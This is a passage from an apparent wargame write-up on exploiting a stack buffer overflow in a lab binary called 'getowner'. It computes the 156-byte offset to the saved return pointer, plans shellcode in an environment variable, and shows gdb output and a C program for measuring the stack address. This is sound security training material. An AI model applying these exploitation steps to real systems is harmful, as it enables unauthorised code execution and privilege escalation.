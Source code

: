 ![Stack-frame of "main"](/assets/blackbox/2/stack-frame.png){: .center-image }

We can see that the saved return pointer is located 156 bytes above the bottom of `buf`. Which means that the filename environment variable should contain 156 bytes (where our code would reside), and 4 bytes which should be a pointer to the start of that code.

This means we have two questions to answer:

1. What is the value of the desired return pointer?
2. What code do we put in the body of our attack?

To answer the first question, let's fire up gdb, and examine the value of `ebp` in main's stack-frame:

```
level2@blackbox:~$ gdb getowner
...
(gdb) b *main+3
Breakpoint 1 at 0x8048467
(gdb) run
Starting program: /home/level2/getowner 

Breakpoint 1, 0x08048467 in main ()
(gdb) p $ebp
$1 = (void *) 0xbfffda98
```

This, unfortunately, is not the right answer, since in the execution context of gdb, the stack is actually located lower than it would have been if ran from a shell.

That difference, though, is a constant one, and can be measured.

Let's make a simple test program to tell us where the stack-frame base is, and run it with, and without gdb:

```
level2@blackbox:~$ cd /tmp/
level2@blackbox:/tmp$ cat > test.c
#include <stdio.h>
int main(int argc, char *argv[])
{
    int i;
    printf("%p\n", &i);
    return 0;
}
level2@blackbox:/tmp$ gcc -o test test.c
level2@blackbox:/tmp$ ./test
0xbfffdac0
```
